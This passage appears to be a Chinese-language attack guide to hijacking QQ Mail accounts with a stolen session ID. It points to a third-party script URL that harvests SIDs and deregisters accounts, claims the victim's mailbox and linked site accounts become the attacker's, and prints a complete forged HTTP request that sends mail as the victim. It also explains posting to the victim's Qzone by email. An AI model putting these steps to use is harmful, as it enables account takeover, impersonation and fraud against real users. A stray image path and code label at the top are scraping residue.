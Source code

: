 洞主的提取SID，并且注销账号的脚本：

```
http://www.vimaggie.cn/test3.php
```



就这样神不知鬼不觉的十五天后QQ邮箱就是你的。他用这个邮箱注册过的网站账号也是你的了



**第二：【其他劫持】**

SID是很强大的，有了它可以做很好时间，比如在一个文件内，发一封邮件。



```
POST /cgi-bin/compose_send?sid=6PROfaf6r0-1Li14 HTTP/1.1
Host: set1.mail.qq.com
Proxy-Connection: keep-alive
Content-Length: 570
Origin: http://set1.mail.qq.com
User-Agent: Mozilla/5.0 (Windows NT 5.1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/31.0.1650.63 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Accept: */*
Referer: http://set1.mail.qq.com/zh_CN/htmledition/ajax_proxy.html?mail.qq.com&amp;v=140521
Accept-Encoding: gzip,deflate,sdch
Accept-Language: zh-CN,zh;q=0.8
Cookie: something 
06dac2f71642701dd6f9ee256bd3b121=296531d782e6538303b45ae3190cd6e5&amp;sid=6PROfaf6r0-1Li14&amp;from_s=cnew&amp;to=%22cnmlgb.vip%22&lt;cnmlgb.vip@qq.com&gt;&amp;subject=e&amp;content__html=&lt;div&gt;e&lt;/div&gt;&amp;sendmailname=65067548@qq.com&amp;savesendbox=1&amp;actiontype=send&amp;sendname=èæ¹&amp;acctid=0 &amp;separatedcopy=false&amp;s=comm&amp;hitaddrbook=0&amp;selfdefinestation=-1&amp;domaincheck=0&amp;cgitm=1438282206801&amp;cgitm=1438282206801&amp;clitm=1438282210705&amp;clitm=1438282210705&amp;comtm=1438282605277&amp;comtm=1438282679917&amp;logattcnt=0&amp;logattcnt=0&amp;logattsize=0&amp;logattsize=0&amp;cginame=compose_send&amp;ef=js&amp;t=compose_send.json&amp;resp_charset=UTF8
```



以上参数修改不会有问题，包括时间戳。

只要SID正确就可以发送邮件了





**第三：【发表空间日志】**

任何账号给自己的空间邮箱发送邮件即可发表说说：

```
模板是这个：***@qzone.qq.com
```

 

   
